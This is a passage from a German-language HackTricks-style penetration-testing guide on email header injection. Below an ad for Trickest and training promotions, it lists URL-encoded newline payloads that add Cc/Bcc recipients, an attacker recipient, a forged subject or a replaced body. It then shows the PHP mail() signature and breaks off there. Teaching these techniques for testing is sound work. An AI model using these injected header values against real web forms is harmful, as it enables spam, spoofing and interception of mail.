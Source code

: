 # Email Injections

<figure><img src="../.gitbook/assets/image (48).png" alt=""><figcaption></figcaption></figure>

\
Verwenden Sie [**Trickest**](https://trickest.com/?utm_source=hacktricks\&utm_medium=text\&utm_campaign=ppc\&utm_content=email-injections), um einfach **Workflows** zu erstellen und zu **automatisieren**, die von den **fortschrittlichsten** Community-Tools der Welt unterstützt werden.\
Zugang heute erhalten:

{% embed url="https://trickest.com/?utm_source=hacktricks&utm_medium=banner&utm_campaign=ppc&utm_content=email-injections" %}

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../.gitbook/assets/arte.png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details><summary>Support HackTricks</summary></details>
{% endhint %}

## Inject in gesendeter E-Mail

### Inject Cc und Bcc nach dem Absender-Argument
```
From:sender@domain.com%0ACc:recipient@domain.co,%0ABcc:recipient1@domain.com
```
Die Nachricht wird an die Konten des Empfängers und des Empfängers1 gesendet.

### Inject argument
```
From:sender@domain.com%0ATo:attacker@domain.com
```
Die Nachricht wird an den ursprünglichen Empfänger und das Angreifer-Konto gesendet.

### Inject Subject argument
```
From:sender@domain.com%0ASubject:This is%20Fake%20Subject
```
Der gefälschte Betreff wird dem ursprünglichen Betreff hinzugefügt und ersetzt in einigen Fällen diesen. Es hängt vom Verhalten des E-Mail-Dienstes ab.

### Ändern Sie den Inhalt der Nachricht

Injizieren Sie einen Zeilenumbruch, und schreiben Sie dann Ihre Nachricht, um den Inhalt der Nachricht zu ändern.
```
From:sender@domain.com%0A%0AMy%20New%20%0Fake%20Message.
```
### PHP mail() Funktion Ausnutzung
```bash
# The function has the following definition:

php --rf mail

Function [ <internal:standard> function mail ] {
- Parameters [5] {
Parameter #0 [ <required> $to ]
Parameter #1 [ <required> $subject ]
Parameter #2 [ <required> $message ]
Parameter #3 [ <optional> $additional_headers ]
Parameter #4 [ <optional> $additional_parameters ]
}
```